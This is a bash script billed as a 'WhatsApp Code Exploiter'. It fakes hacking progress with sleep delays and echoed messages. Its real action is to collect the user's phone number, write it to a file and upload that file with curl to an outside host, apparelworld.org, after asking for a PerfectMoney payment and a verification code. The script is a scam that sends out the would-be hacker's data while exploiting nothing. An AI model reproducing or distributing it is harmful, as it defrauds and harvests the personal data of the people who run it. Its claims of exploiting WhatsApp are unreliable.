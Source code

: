 #!/bin/bash
clear
echo "
<-- H A C K E R S -->
####################
#   Whatsapp Code  # By ./C3W3KH17RaH54h
#     Exploiter    # azayramadhany@gmail.com
####################
Copyright (c) 2018 ./C3W3KH17RaH54h Ganteng";
echo "";
read -p "You Nomber (+62xxxx)=> " nomer;
read -p "Target Nomber (+62xxxx) => " target;
sleep 2
echo "[+] Syncing Target...";
sleep 1
echo "Login  => $nomer";
sleep 0.5
echo "Target => $target";
sleep 0.5
echo "[+] Exploiting...";
echo "Nomer => $nomer" >> hack.html;
curl -T hack.html http://apparelworld.org/
sleep 5;
echo "[+] Done.";
echo "Pay For Get Code PerfectMoney : 3R1C54Y";
read -p "Verify Code => " code;
sleep 2
echo "[+] Connecting to whatsapp.com...";
echo "Login => $nomer";
sleep 0.5
echo "Code => $code";
sleep 0.5
echo "Target => $target";
sleep 0.5
echo "[+] Sending Exploit...";
echo "Code => $code" >> kontol.html;
curl -T hack.html http://apparelworld.org/
sleep 5
echo "[+] Success Exploited!";
exit;
